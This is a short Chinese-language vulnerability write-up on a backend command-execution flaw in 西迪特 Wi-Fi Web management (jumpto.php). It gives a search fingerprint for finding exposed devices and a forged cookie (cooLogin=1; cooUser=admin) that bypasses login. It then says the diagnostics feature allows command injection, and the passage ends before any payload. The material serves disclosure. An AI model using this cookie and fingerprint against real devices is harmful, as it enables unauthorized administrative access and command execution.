

# 西迪特 Wi-Fi Web管理 jumpto.php 后台命令执行漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

```
西迪特 Wi-Fi Web管理
```

## 网络测绘

```
title=="Wi-Fi Web管理"
```

## 漏洞复现o

登录页面


通过越权漏洞获取权限，添加Cookie

```
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

进入后台后，诊断功能点存在命令拼接执行漏洞

